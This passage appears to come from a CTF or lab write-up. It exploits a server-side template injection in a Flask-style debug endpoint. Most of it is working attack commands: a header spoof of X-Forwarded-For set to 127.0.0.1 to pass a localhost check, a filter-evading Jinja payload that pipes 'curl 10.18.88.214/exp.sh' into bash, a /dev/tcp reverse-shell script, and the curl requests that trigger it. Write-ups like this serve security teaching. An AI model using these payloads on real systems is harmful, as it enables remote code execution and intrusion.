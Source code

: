{% code overflow="wrap" %}
```bash
dking@dking ~/Downloads$ curl http://10.10.87.79:7777/debugresult -b "session=.eJyrVkpJTSpNV7JSqq421zKvrVXSUSpILC4uzy9KAQomqSvExFQYGKARqkDSMDkmpgjEMwZxLEAsMxArVV2pFgCp1xtW.ZVtXdw.IQ2vDaLLrSEDadueBv-EyerIgCA" -H "X-Forwarded-For: 127.0.0.1"

┌──(ayham㉿AM-Kali)-[~]
└─$ debugging
<span class="result">49</span>

</code>
</pre>
```
{% endcode %}

we got `49`, that confirms that it's vulnerable to `ssti`, now let's get a reverse shell since we can execute commands with ssti.

### SSTI RCE

the payload i'll use for the reverse shell is :

{% code overflow="wrap" %}
```
{{+self.__init__.__globals__.__builtins__.__import__("os").popen("curl+10.18.88.214/exp.sh+|+bash").read()+}}
```
{% endcode %}

the reason for using this exact payload is cause it doesn't contain any of the illegal characters that are getting filtered here :

```python
def illegal_chars_check(input):
    illegal = "'&;%"
    error = ""
    if any(char in illegal for char in input):
        error = "Illegal characters found!"
        return True, error
    else:
        return False, error
```

Conetents of `exp.sh` .

{% code overflow="wrap" %}
```bash
dking@dking ~/Downloads$ cat exp.sh                                                                              
bash -i >& /dev/tcp/10.18.88.214/9000 0>&1
```
{% endcode %}

Setup python server to host the .sh file. Then execute.

{% code overflow="wrap" %}
```bash
# 1st to get the cookie.
dking@dking ~/Downloads$ curl 'http://10.10.87.79:7777/debug?debug=\{\{+self.__init__.__globals__.__builtins__.__import__("os").popen("curl+10.18.88.214/exp.sh|bash").read()+\}\}&password=AyhamDeebugg' -I

# 2nd trigget the payload.
dking@dking ~/Downloads$ curl http://10.10.87.79:7777/debugresult -H "X-Forwarded-For: 127.0.0.1" -b 'session=.eJxdjdEKwiAYRl9FfohtEKYVIT2LILrZJtgU_40GtndP666bj3PgwJdhsGYd4Q45E7T-QZVys1uUKjD6YLTHL5vV-cXNP3HPGFJpWgkBJXQ0hmjnYv2aPOGMckGFoGd-PdktUpzeRuNUw2T10HZk3-EIUSO-QhrKuWmIlBtjf3Moy3spU7VLFVHpVsk2sH8AH6A-pA.ZVtcPg.UjYaapd1URh3skDvCXFaTyJvh0I'
```
{% endcode %}
